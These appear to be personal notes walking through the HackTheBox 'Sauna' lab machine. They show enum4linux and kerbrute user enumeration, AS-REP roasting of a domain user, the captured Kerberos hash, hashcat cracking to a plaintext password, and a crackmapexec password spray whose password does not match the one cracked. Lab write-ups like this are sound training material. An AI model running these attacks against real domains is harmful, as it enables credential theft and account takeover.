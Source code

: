 
```
enum4linux -a 10.10.10.175
```

```
Domain Name: EGOTISTICALBANK                                                  
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766
```

Let's get some valid users as we came to know about the Domain Name
```
kerbrute userenum -d EGOTISTICALBANK --dc 10.10.10.175 userlist.txt -t  100
```

```
2024/05/01 05:30:52 >  [+] VALID USERNAME:       administrator@EGOTISTICALBANK
2024/05/01 05:31:09 >  [+] VALID USERNAME:       hsmith@EGOTISTICALBANK
2024/05/01 05:31:12 >  [+] VALID USERNAME:       Administrator@EGOTISTICALBANK
2024/05/01 05:31:21 >  [+] VALID USERNAME:       fsmith@EGOTISTICALBANK
```
![[Pasted image 20240501053829.png]]

So we are getting something even though we are got nothing from smb for not will enumerate it later. Will see asproasting and see if we get any ticket hash or not.

Users we got
```
administrator@EGOTISTICALBANK
hsmith@EGOTISTICALBANK
Administrator@EGOTISTICALBANK
fsmith@EGOTISTICALBANK
```

Don't do this mistake in the exam
we have to provide the Domain name and not the host name for the attack
![[Pasted image 20240501054417.png]]

ASProasting
![[Pasted image 20240501054433.png]]

```
$krb5asrep$fsmith@EGOTISTICALBANK@EGOTISTICALBANK:ac1285fbd11b34772846f44a434c0bd7$8dd65bb22872b02a09fabf87fee11a01bd86250c429f91a7a1ba8e07d0f5e31adc6996b46b9c32c6f2a67d63fffbc15b32fb8a2f674804e60d9ffc26e956427ac6f2a7ca2e18bc017e1e775d72e86d936febbe0fdd84b6ec561b853e020c0d6f660e0afa659c500c6f92e43ce019dc120e7de3cb0db2e1b17be30a4569e6686aa16b276941d1b5c8bb7fd1a77a2b43367b285939700d3248aecc537b36dcb3e9bb0f06f08b29b2d019685e724c244d35d52cbcb0df03f33a15be35e099a112c20a63fe6f1e2dda21adc0bb9f18cf5788e401a16836fcf837b1580c8ecfbdd240c2eca5ee19de40a475410d2c77a298f7d555fcc76ae7e2ea0b
```

So let's see if we can crack it or not.

Hashcat
https://hashcat.net/wiki/doku.php?id=example_hashes
![[Pasted image 20240501054727.png]]

```
 .\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20240501054841.png]]

Username:
```
fsmith
```

```
Thestrokes23
```


If we want to see like this password is valid for any user than we can do it in this way
```
crackmapexec smb 10.10.10.175 -u ~root/HackTheBox/Sauna/valid_user.txt -p Washington10URedmond10U
```

